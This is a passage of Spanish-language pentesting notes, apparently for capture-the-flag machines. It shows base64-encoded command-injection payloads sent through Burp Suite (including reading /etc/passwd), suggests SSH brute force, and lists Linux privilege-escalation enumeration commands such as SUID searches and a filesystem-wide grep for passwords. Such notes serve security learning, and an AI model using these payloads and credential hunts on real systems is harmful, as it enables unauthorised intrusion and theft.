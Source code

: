 -------------------------------------------------------------------------------

## 5.- Si interceptamos un formulario con burpsuite y cuando enviamos parámetros (repeater), nos aparece este mensaje:

Error:     'utf-8' codec can't decode byte 0xa9 in position 1: invalid start byte

significa que el campo interpreta texto en base64, entonces lo que se procede es hacer lo siguiente:

comprobar si la teoría es cierta
echo "whoami" | base64echo
d2hvYW1pCg==

Ver los usuarios:
echo "cat /etc/passwd | grep bash" | base64
Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCBiYXNoCg==

puede que en la máquina esté corriendo el ssh, podemos hacer fuerza bruta con el usuario encontrado y podemos acceder a la máquina.

-------------------------------------------------------------------------------

## 6.- Siempre que entremos a una máquina por ssh y queremos escalar privilegios, debemos ir descartando cosa por cosa, por ejemplo:

verificamos el archivo .bashrc que está en el home de cada usuario.

1ero, ver los grupos a los que pertenece el usuario, con el comando id

2do, find / -name "*.txt" 2>/dev/null
	Buscar archivos dentro del sistema con el usuario con el que te has conectado :

	find / -type f -user chocolatito 2>/dev/null

archivos de escritura:

find / -writable 2>/dev/null | grep -v -i -E 'proc|sys|dev|run|home|var|tmp'

Busque la palabra password

grep -Ri "password" / 2>/dev/null

ver permisos de ejecución sobre que archivos
find / -type f -perm -o+x 2>/dev/null

3ero, permisos SUID -> sudo -l
4to, binarios SUID -> 
	find / -perm -4000 2>/dev/null
	find / -perm -u=s 2>/dev/null
5to, contrabs -> cat /etc/crontab
6to, procesos -> ps -faux
7mo, capabilities
8vo, analizar archivos, como por ejemplo en /home/UserName
8no, buscar otras carpetas en todo el sistema
10mo, Linpeas / pspy64 / winpeas 
